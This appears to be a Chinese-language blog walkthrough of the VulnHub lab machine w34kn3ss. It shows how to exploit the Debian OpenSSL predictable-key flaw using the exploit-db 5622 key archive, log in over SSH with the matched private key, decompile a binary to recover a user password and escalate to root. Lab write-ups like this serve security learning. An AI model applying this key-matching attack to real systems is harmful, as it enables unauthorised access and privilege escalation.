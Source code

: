 ```yaml
---
layout: post
title:  "w34kn3ss"
description: walkthrough
category: vulnhub
---
```

# w34kn3ss

![image-20200621221821981]({{ site.url }}/assets/w34kn3ss.assets/image-20200621221821981.png)

![image-20200621221847798]({{ site.url }}/assets/w34kn3ss.assets/image-20200621221847798.png)

根据只要出现名称就要加入hosts并扫描目录的原则将weakness.jth加入hosts，并浏览

![image-20200621222418120]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222418120.png)

打目录

![image-20200621222523843]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222523843.png)

![image-20200621222556792]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222556792.png)

![image-20200621222644741]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222644741.png)

查看文件

![image-20200621222709935]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222709935.png)

这是个很明确的提示`openssl 0.9.8c-1`

以及一个已知的公钥

![image-20200621224141943]({{ site.url }}/assets/w34kn3ss.assets/image-20200621224141943.png)

```bash
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster
```

如果直接使用这个key登录仍然是需要密码的

![image-20200621225204829]({{ site.url }}/assets/w34kn3ss.assets/image-20200621225204829.png)

我们来尝试利用漏洞

![image-20200621222939225]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222939225.png)

查看漏洞利用文件发现介绍

![image-20200621223144518]({{ site.url }}/assets/w34kn3ss.assets/image-20200621223144518.png)

利用提供的下载链接https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2

将需要的文件下载到本地工作目录

解压后将会自动生产需要的rsa文件夹

![image-20200621223628637]({{ site.url }}/assets/w34kn3ss.assets/image-20200621223628637.png)

现在我们要利用已知的存放在服务器上的公钥mykey.pub找到漏洞利用中已经可以用来进攻的文件编号。

进入到rsa/2048/目录下，利用grep找出mykey对应的公钥文件，存在

```bash
grep -r -l "AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw=="		#mykey中的内容
```

![image-20200621224745791]({{ site.url }}/assets/w34kn3ss.assets/image-20200621224745791.png)

```bash
4161de56829de2fe64b9055711f531c1-2537.pub
```

这个文件名可以帮我们暴力掉ssh从而使ssh不会再询问密码。

```bash
ssh -i 4161de56829de2fe64b9055711f531c1-2537 n30@10.10.10.142
```

![image-20200621225632400]({{ site.url }}/assets/w34kn3ss.assets/image-20200621225632400.png)

发现一个二进制文件

![image-20200621230601206]({{ site.url }}/assets/w34kn3ss.assets/image-20200621230601206.png)

传回kali，发现是已编译的py

![image-20200621230748673]({{ site.url }}/assets/w34kn3ss.assets/image-20200621230748673.png)

先改名成.pyc。然后使用uncompyle6反编译

![image-20200621231605962]({{ site.url }}/assets/w34kn3ss.assets/image-20200621231605962.png)

看代码应该是将以下的信息推进命令行

```bash
n30:dMASDNB!!#B!#!#33
```

尝试使用dMASDNB!!#B!#!#33作为密码 ,执行sudo -l

![image-20200621231836040]({{ site.url }}/assets/w34kn3ss.assets/image-20200621231836040.png)

成功，并且n30用户能直接root

![image-20200621231950136]({{ site.url }}/assets/w34kn3ss.assets/image-20200621231950136.png)